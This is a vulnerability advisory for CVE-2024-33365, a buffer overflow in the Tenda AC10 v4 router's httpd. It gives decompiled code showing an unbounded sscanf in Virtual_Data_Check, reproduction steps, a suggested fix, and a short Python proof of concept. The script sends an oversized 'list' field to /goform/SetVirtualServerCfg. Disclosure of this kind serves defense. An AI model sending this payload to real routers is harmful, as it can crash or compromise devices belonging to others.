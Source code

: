 # Buffer Overflow in Virtual_Data_Check

## Affected model(s) and firmware/software version(s)

Product: Tenda - AC10 v4

Version: US_AC10V4.0si_V16.03.10.20_cn

Binary: `/bin/httpd`

## Vulnerability description and potential impacts

In `formSetVirtualSer`, it reads value of key `list` upto 0x200 bytes and passed as argument to function `Virtual_Data_Check`:

```c
memset(acStack_514, 0, 0x100);
memset(auStack_414, 0, 0x201);
memset(auStack_210, 0, 0x201);
iVar1 = websSafeGetVar(param_1, 0xcc, "list", & DAT_004fb6b8, auStack_414);
if (iVar1 == 1) {
    printf("Error: Get WEB value failed, idx[%d],var[%s]\n", 0xcc, & DAT_004fb6bc);
    websTransfer_errCode(param_1, 1);
} else {
    memcpy(auStack_210, auStack_414, 0x201);
    iVar1 = Virtual_Data_Check(auStack_210);
    if (iVar1 == 0) {
        save_virtualser_data("adv.virtualser", auStack_414, 0x7e);
```

In `Virtual_Data_Check`, it uses sscanf with format string `%[^,]` and `%s` to parse from param1 to 4 local variables. But the `list` can take upto 0x200, which will cause buffer overflow:

```c
undefined4 Virtual_Data_Check(char * param_1)
{
    ...
    local_198 = param_1;
    if ( * param_1 == '\0') {
        uVar3 = 0;
    } else {
        while (pcVar4 = strchr(local_198, L '~'), pcVar4 != 0x0) {
            ...
        }
        iVar5 = sscanf(local_198, "%[^,],%[^,],%[^,],%s", & local_168, & local_138, & local_128, & local_118);
        ...
    }
    return uVar3;
}
```

## Step-by-step instructions to reproduce the issue

- Step 1: Run httpd
- Step 2: Run the script in the next section with first argument is ip of server

## Proof-of-concept (PoC) or exploit code for the issue

```python
#!/usr/bin/python3

import sys
import requests

payload = b'2,'*3
payload = payload.ljust(0x200, b'A')

def run():
    url = f"http://{sys.argv[1]}/goform/SetVirtualServerCfg"
    data = {
        'list': payload,
    }
    res = requests.post(url=url,data=data)

run()
```

![formSetVirtualSer](images/poc.gif)

## Any suggested solutions to fix this

Reduce max size in `websSafeGetVar` for "list"

## Severity (e.g. CVSS v3.x)

Buffer Overflow, possible command injection

## Acknowledgement

Cao Ngoc Quy, Nguyen Huu Tri and Nguyen Le Quoc Anh of bl4ckh0l3 from Galaxy One

## Assigned CVE

CVE-2024-33365
